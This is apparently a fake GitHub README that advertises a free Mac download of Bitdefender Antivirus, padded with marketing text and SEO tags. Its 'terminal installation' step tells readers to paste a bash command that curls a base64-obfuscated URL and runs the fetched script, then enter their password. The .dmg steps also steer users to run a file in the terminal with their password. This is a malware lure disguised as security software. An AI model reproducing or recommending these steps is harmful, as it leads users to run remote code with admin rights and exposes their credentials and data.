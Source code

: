 # Bitdefender Antivirus — Free Download For Mac OS

Bitdefender Antivirus for Mac offers top-tier protection against malware, ransomware, and online threats. Follow the instructions below to securely download and install it on your Mac. 🛡️

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/bitdefender)

If the download button doesn't work, follow the terminal installation instructions below.

## 📦 How to Install Bitdefender Antivirus For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🛡️ **Real-Time Threat Protection**: Bitdefender continuously scans for malware, viruses, and ransomware to keep your Mac secure.
- 🌐 **Web Protection**: Safeguards your browsing by blocking phishing sites and malicious links in real time.
- 🔒 **Ransomware Defense**: Protects your files from unauthorized encryption with advanced ransomware remediation.
- ⚡ **Lightweight Performance**: Runs efficiently without slowing down your Mac, even during intensive scans.
- 🕒 **Automatic Updates**: Keeps your antivirus up-to-date with the latest threat definitions for uninterrupted protection.
- 🔐 **Secure VPN Option**: Includes an optional VPN for private browsing (subscription may be required).

## About Bitdefender Antivirus

Bitdefender Antivirus for Mac is a leading cybersecurity solution designed specifically for macOS users. With its advanced threat detection algorithms, it ensures your Mac is protected from viruses, malware, spyware, and other online threats. Whether you're browsing the web, downloading files, or accessing sensitive data, Bitdefender provides a seamless and secure experience. Its intuitive interface makes it easy for users of all levels to manage their security settings, while its lightweight design ensures minimal impact on system performance. By incorporating cutting-edge technology, Bitdefender remains a trusted name in antivirus software.

One of the standout features of Bitdefender Antivirus is its real-time protection. The software actively monitors your system for suspicious activity, instantly neutralizing threats before they can cause harm. This is particularly important for Mac users who may encounter phishing attacks or malicious downloads. With Bitdefender, you can confidently browse the internet knowing that harmful websites and links are blocked automatically. The software’s web protection module is optimized to work with all major browsers, ensuring compatibility and ease of use.

For those concerned about ransomware, Bitdefender offers robust defense mechanisms. Its ransomware remediation feature ensures that your files remain safe from unauthorized encryption attempts. In the event of an attack, Bitdefender can restore affected files, minimizing data loss. This feature is critical in today’s digital landscape, where ransomware attacks are becoming increasingly sophisticated. By choosing Bitdefender, you’re investing in a solution that prioritizes both prevention and recovery.

Bitdefender’s automatic update system keeps your software equipped with the latest threat definitions, so you’re always protected against emerging threats. Unlike some antivirus programs that require manual updates, Bitdefender handles this process in the background, ensuring uninterrupted security. Additionally, the software’s efficient design means it won’t bog down your Mac, even during full system scans. This balance of performance and protection makes Bitdefender a top choice for macOS users.

### Why Choose Bitdefender?

Bitdefender Antivirus for Mac stands out due to its combination of powerful protection, user-friendly design, and minimal system impact. Unlike other antivirus solutions, Bitdefender is tailored specifically for macOS, ensuring compatibility with the latest Mac operating systems. Its proactive approach to threat detection, coupled with features like web protection and ransomware defense, makes it an essential tool for safeguarding your digital life. Whether you’re a casual user or a professional, Bitdefender delivers reliable, high-performance security without compromising usability.

## 🖼 Preview

![Main Dashboard](https://i.ytimg.com/vi/B_PE-YSWkm0/maxresdefault.jpg)
*Bitdefender’s sleek and intuitive dashboard for managing scans and settings*

![Web Protection](https://www.bitdefender.de/media/uploads/2017/06/two-instances-22-1024x576.png)
*Real-time web protection blocking malicious sites*

![Scan Results](https://cdn.comparitech.com/wp-content/uploads/2024/09/Protection_Antivirus_Menu.jpg)
*Detailed scan results showing detected threats*

## 🔍 Tags

Bitdefender Antivirus, Mac antivirus, bitdefender total security, bitdefender antivirus plus, bitdefender internet security, bitdefenderdownload, bitdefender for mac, bitdefender antivirus for mac, bit defender mac, antivirus bit defender, bitdefender antivirus download, bitdefender antivirus free download, bitdefender antivirus download mac, bitdefender antivirus free mac

